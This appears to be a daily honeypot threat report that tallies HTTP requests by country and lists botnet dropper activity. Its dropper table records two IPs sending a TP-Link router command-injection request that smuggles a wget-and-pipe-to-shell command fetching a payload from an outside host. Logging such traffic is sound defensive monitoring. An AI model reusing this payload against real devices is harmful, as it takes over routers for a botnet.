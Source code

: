 ```yaml
---
title: "Report: 2025-06-08 "
date: 2025-06-08
desciption: "Report: 2025-06-08" 
tags: [repport, daily]
---
```



# Daily Report: 2025-06-08 
# Executive summary
interaction report on http service of various Hhoneypot around the world. 

- [Executive summary](#executive_summary)
- [OT report simplified](#ot_simplified_report)
- [Botnet dropper behaviour](#botnet_dropper_behaviour)
- [List of request](#request)
- [List of country_iso_code](#country_iso_code)

## executive_summary

In today’s repport, we detected 2 stage 1 IP address(es), linked to 1 dropper URL(s).  

There are 184 new requests that have never been observed before (these were added to the monitored [request database.](https://blog.shoggoth.industries/database/request_database/)).  

A total of 1136 requests were recorded during the day, originating from 2 different countries, with a peak of 271 requests coming from BG.


## ot_simplified_report
simplified report for medium-level interactions with honeypots that mimic industrial systems (web site loading, or interactions with the website), for more contact us on social@shoggoth.industries.
| source_country   | targeted_country   |
|:-----------------|:-------------------|
| US               | Dubai              |

## botnet_dropper_behaviour
| remote_addr   | request                                                                                                                   |
|:--------------|:--------------------------------------------------------------------------------------------------------------------------|
| 195.3.221.137 | GET /cgi-bin/luci/;stok=/locale?form=country&operation=write&country=$(wget+http://45.125.66.79/x/tplink+-O-|sh) HTTP/1.1 |
| 87.121.84.34  | GET /cgi-bin/luci/;stok=/locale?form=country&operation=write&country=$(wget+http://45.125.66.79/x/tplink+-O-|sh) HTTP/1.1 |

## request

The list of requests presented here are those that have not yet been yet integrated into the [request database.](https://blog.shoggoth.industries/database/request_database/)
